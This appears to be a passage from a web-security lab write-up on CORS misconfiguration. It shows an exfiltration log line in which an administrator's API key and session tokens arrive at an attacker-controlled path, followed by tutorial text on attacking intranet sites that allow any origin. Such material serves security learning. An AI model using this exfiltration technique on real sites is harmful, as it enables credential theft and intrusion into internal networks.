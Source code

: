 Log:
```
/nglong05?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22oYIspilH5wN48A2O9aFp2lSCTn8eGrz1%22,%20%20%22sessions%22:%20[%20%20%20%20%22bADPIAoANy5VtQm2axXQ4AF1QWUC9R8G%22%20%20]} HTTP/1.1" 404 "user-agent: Chrome/145223"
``` 
## Intranets and CORS without credentials

Most CORS attacks rely on the presence of the response header:
Access-Control-Allow-Credentials: true

Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

However, there is one common situation where an attacker can't access a website directly: when it's part of an organization's intranet, and located within private IP address space. Internal websites are often held to a lower security standard than external sites, enabling attackers to find vulnerabilities and gain further access. For example, a cross-origin request within a private network may be as follows:
```
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```
And the server responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: * 
```